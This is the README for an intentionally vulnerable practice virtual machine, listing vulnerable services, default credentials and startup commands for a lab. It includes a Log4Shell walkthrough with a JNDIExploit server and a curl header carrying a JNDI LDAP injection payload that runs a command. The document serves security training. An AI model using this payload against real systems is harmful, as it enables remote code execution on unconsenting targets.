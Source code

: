 <img width="747" alt="supervuln3" src="https://user-images.githubusercontent.com/4623055/198848934-8e05569f-8549-4a58-afbb-5c1b3025f0de.png">

By @rodsoto
www.rodsoto.net 
# SuperVuln v1
#super:above, beyond 
#vulnus: wound 
# Super vulnerable machine
#exploitation, target practice, makiwara, tamashii wari, training virtual machine.  
#this virtual machine is meant to be in HOST ONLY setting and ON PREM USE. DO NOT operate in production or expose to the internet.

All Vulns  --- (DO NOT UPDATE THIS MACHINE YOU WILL BREAK IT)


1) Phpmyadmin 4.8.0 RCE/LFI --> localhost/phpmyadmin480 (remember for web servers you need apache2 and mysql running read note below to bring them up first) root:toor 
2) Rlogin
3) SAMBA Anonymous - ETERNAL RED CVE-2017-7494 (`sudo /usr/local/samba/sbin/smbd -D, sudo /usr/local/samba/sbin/nmbd -D`)
4) VsFTPD 2.3.4 RCE | `sudo /usr/local/sbin/vsftpd`  - port 21
5) SSH - port 22
6) MySQL - port 3306
7) Chargen - port 19
8) QOTD - port 17
9) Daytime - port 13
10) Telnet - port 23
11) Tomcat 8.5.2 - port 8080 `/home/research/Desktop/apache-tomcat-8.5.2 | sudo bash /bin/startup.sh`
12) Struts 2.0.14 - port 8080 
13) MongoDB - port 27017 | `sudo ./mongod --dbpath data/db/ | from /home/research/Desktop/supervuln-files/`
14) Jenkins 2.31 --> research/Desktop/supervuln/files/ --> `java -jar jenkins.war ` (admin,admin --localhost 8080)
15) Redis - cd `/home/reserach/Desktop/redis-4.0.2/ ./src/redis-server ../redis.conf`
16) Patient Scheduler -- localhost/scheduler admin admin123 (XSS,SQLi, RFI)
17) Drupal 8.5.11 -- localhost/drupal8511 root toor RCE (https://exploit-db.com/exploits/46510)
18) Log4J (1) - /home/research/Desktop/log4j-shell-poc `sudo docker build -t log4j-shell-poc . then sudo docker run --network host log4j-shell-poc`
19) Log4J (2) 
FROM /home/research/Desktop/log4shell-vulnerable-app/ `docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`
then
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888`
then. will execute 'touch /tmp/pwned'
`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'` (you can play with payloads) https://github.com/christophetd/log4shell-vulnerable-app
20) echo - port 7
21) time - port 37
22) discard - port 9
23) QDPM 9.1 `https://localhost/qdpm/index.php` user:admin@localhost password:toor (remember for web servers you need apache2 and mysql running read note below to bring them up first)
24) RiteCMS `http://localhost/ritecms/admin.php` user:admin password:admin (this is SQLite) RFI
25) Drupal 8.5 -- localhost/drupal85 root toor - DRUPALGEDDON2
26) localhost/sqli.php -- SQL Injection 
27) Wembin 1996 -- RCE localhost:10000

Note: from /opt/lampp run -> `sudo ./manager-linux-x64.run` #to get Xammp GUI

PLUS - API Vulnerable frameworks (See readme in Desktop) 

crAPI.  
PIXI.   
OWASP Juice Shop.   
Damn Vulnerable GraphQL.   

Bonus stuff to practice (Stego, WAV, Pcaps, BoF, Win7 SAM hashes) 

Download here. 
https://drive.google.com/file/d/1_AbR5R96smaWpHdlqUJNT1Q4obtwXZgp/view?usp=share_link
root - toor   
research - toor    

Import .OVA use Vmware Player or Fusion or Virtual box   
See links below for guidance   
https://docs.vmware.com/en/VMware-Workstation-Pro/16.0/com.vmware.ws.using.doc/GUID-DDCBE9C0-0EC9-4D09-8042-18436DA62F7A.html   
https://docs.oracle.com/cd/E26217_01/E26796/html/qs-import-vm.html. 


